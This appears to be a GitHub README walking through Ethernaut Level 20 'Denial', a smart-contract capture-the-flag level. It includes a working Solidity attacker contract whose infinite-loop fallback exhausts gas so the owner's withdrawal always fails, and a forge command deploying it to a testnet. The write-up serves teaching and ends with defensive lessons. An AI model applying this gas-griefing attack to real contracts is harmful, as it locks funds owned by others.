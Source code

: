 <div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>

<img src="../imgs/levels/20-denial.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 20 - Denial</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 20 - Denial](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标

<img src="../imgs/requirements/20-denial-requirements.webp" width="800px"/>

## 漏洞

The goal of the Denial challenge is to prevent the owner from withdrawing funds using the `withdraw()` function. How to do that?

Let's take a look at the `withdraw()` function:

```javascript
function withdraw() public {
        uint amountToSend = address(this).balance / 100; // 1% of the contract's balance
        partner.call{value:amountToSend}(""); // Send to partner using call
        payable(owner).transfer(amountToSend); // Send to owner using transfer

        // The rest is irrelevant to the solution, but note that the CEI isn't respected
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }
```

There are 2 external calls here:

- `partner.call{value:amountToSend}("");`
- `payable(owner).transfer(amountToSend);`

There isn't much we can do with the `transfer` to the owner. However, we know that the `call` function forwards all the remaining gas to the callee. Unfortunately, since the return value isn't checked, simply reverting upon receiving ether wouldn't work. So we have to find another way to break the `withdraw` function.

This can be achieved by using all the remaining gas within the fallback function. By doing so, the `withdraw()` function will never be able to complete its execution. In this case, a useless infinite loop will do the work beautifully:

```javascript
fallback() external payable {
    while (true) {}
}
```

## 解答

Let's implement the solution accordingly:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IDenial {
    function setWithdrawPartner(address _partner) external;
}

contract Stop {
    IDenial idenial;

    constructor(address _denial) {
        idenial = IDenial(_denial);
    }

    function becomePartner() public {
        idenial.setWithdrawPartner(address(this));
    }

    fallback() external payable {
        while (true) {}
    }
}

```

Then run the script with the following command:

```bash
forge script script/20_Denial.s.sol:PoC --rpc-url sepolia --broadcast --watch
```

## 要点

- Always check the return value of the `call` function.
- A specific amount of gas can be specified when using the `call` function.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
